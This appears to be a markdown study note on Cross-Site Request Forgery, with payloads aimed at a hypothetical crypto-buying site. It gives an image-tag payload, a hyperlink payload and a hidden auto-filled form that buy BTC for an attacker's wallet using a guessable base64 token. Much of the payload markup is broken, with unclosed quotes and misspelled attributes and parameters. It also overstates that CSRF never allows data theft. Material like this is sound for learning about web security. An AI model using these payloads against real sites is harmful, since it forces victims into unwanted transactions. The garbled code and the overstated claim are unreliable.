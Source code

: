 # Cross-Site Request Forgery
## What is CSRF?
A CSRF vulnerability allows an attacker to unknowingly perform state changes on a web application where the victim is authenticated. CSRF does not allow theft of any data, since the attacker has no way to see the response from the webpage.

## CSRF Example
```
<form action="change-email", method="POST">
	<label for="email"> New Email: </label>
	<input type="email" name="new email">
	<button type="submit">Submit</button>
</form>
```

No CSRF protection allows an attack to force our victim to make a POST request to /change-email without validating the origin of the reqeust.


## No CSRF Token

`GET https://cryptosite.com/buy.php?wallet=something&amount=100&type=BTC`

Exploit:
- An Image tag:

	`<img/src="http://cryptosite.com/buy.php?walet=something&amount=100&type=BTC">`
	
- A Hyperlink

	`<a/href="http://cryptosite.com/buy.php?wallet=something&amount=100&type=BTC">Free BTC</a>`
	

## Reusable / guessable CSRF Token

`POST http://cryptosite.com/buy.php HTTP/1.1`
`wallet=1337hacker&amount=100&type=BTC&xsrf_token=e3vzZXJfaWQ9NDR9`

Exploit:
```
<form action="http://cryptosite.com/buy.php" method="POST">
	<input type="hidden" name="wallet" value="1337hacker"/>
	<input type="hidden" name="amount" value="100/?
	<input type="hidden" name="type" value="BTC"/>
	<input type="hidden" name="xsrf_token" value="e3VzZXJfaWQ9NDR9"/?
	<input type="subimt" value="Click here to win"/> 
</form>
```

e3VzZXJfaWQ9NDR9 = {user_id=44} base64 encoded

